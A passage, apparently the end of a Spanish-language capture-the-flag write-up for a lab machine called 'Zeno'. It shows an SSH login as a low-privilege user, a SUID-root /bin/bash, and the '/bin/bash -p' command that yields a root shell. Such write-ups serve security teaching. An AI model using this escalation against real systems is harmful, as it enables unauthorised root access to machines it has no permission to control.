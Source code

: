 ~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Zeno]
└─$ ssh edward@10.10.55.120
edward@10.10.55.120s password: 
Last login: Sat Feb 10 01:51:47 2024 from ip-10-2-60-167.eu-west-1.compute.internal
-bash-4.2$ ls -la /bin/bash
-rwsr-sr-x. 1 root root 964536 abr  1  2020 /bin/bash
-bash-4.2$ /bin/bash -p
bash-4.2# 
~~~

- Y con esto habríamos comprometido la máquina. Tiene un buen nivel de dificultad para repasar algunos conceptos de búsqueda y explotación básicos.
